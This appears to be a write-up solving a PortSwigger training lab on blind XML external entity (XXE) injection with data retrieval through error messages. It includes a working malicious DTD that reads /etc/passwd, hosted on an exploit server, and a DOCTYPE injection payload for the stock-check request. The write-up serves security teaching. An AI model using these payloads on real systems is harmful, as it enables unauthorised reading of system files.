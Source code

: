 # Exploiting blind XXE to retrieve data via error messages

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages) has a "Check stock" feature that parses XML input but does not display the result.

## Reproduction and proof of concept

1. Click "Go to exploit server" and save the following malicious DTD file on your server:

```text
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

When imported, this page will read the contents of ``/etc/passwd`` into the ``file`` entity, and then try to use that entity in a file path.

2. Click "View exploit" and take a note of the URL for your malicious DTD.
3. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:

```text
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

You should see an error message containing the contents of the ``/etc/passwd`` file.

## Exploitability

An attacker needs to use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file. The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 
